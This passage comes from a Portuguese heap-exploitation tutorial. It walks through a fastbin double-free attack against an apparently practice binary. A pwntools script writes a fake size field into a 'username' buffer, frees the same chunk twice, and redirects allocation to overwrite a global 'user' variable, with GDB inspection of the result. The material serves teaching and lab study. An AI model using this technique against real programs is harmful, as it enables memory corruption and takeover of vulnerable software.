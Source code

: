 E se inserirmos em "username" um *size field* falso?  
Inserindo no lugar do "username" um *quadword* nulo para preencher a primeira parte, mais um *size field* falso utilizando a função `p64()` do pwntools, podemos preencher o segundo *quadword* com o *size field* esperado.  
Vamos adicionar no script ficando desta forma:

```py
#===============EXPLOITING================#

# enviando o username
username = p64(0) + p64(0x31)
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# requisitando 2 chunks de 0x30 bytes
chunk_A = malloc(0x28, b"A"*0x28)
chunk_B = malloc(0x28, b"B"*0x28)

# liberando os chunks
free(chunk_A)
free(chunk_B)
free(chunk_A)

# criando um chunk fake que aponta para "user"
dup = malloc(0x28, p64(elf.sym.user))

# requisitando o chunk B
malloc(0x28, b"A")

# requisitando o chunk A com "fd" para "user"
malloc(0x28, b"A")

# sobrescrevendo "user"
malloc(0x28, b"BecoXPL")

#=========================================#
```
Ao executermos com o GDB, podemos observar que ele não encerrou a execução. Se utilizarmos o comando `dq` para visualizarmos o resultado, veremos um *size field* falso compatível com nossa fastbin.

![Size field falso](/img/papers/heap_p1/paper_heap1_124.png)

Podemos continuar o fluxo de execução no GDB com o comando `continue`, voltarmos para o terminal de execução do script e escolher a opção três, para visualizarmos o *target*.
